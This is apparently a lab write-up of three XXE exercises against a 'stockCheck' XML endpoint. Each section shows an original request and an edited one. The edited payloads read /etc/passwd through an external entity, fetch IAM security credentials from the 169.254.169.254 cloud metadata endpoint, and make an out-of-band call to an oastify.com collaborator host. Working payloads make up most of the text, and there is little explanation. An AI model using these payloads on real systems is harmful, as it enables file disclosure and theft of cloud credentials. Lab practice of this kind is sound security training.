




## XXE using external entities to retrieve files
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>
</productId><storeId>1</storeId></stockCheck>
```
+ Edit to
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
+ Result :


## Exploiting XXE to perform SSRF attacks
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```
+ Edit to
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```
+ Result



## Blind XXE with out-of-band interaction
+ Create buup collaborator 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>13</productId>
<storeId>1</storeId>
</stockCheck>
```
+ Edit to
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://v0wkda9pdo2k1tbpgvnyzak8azgq4gs5.oastify.com"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```

+ Result :

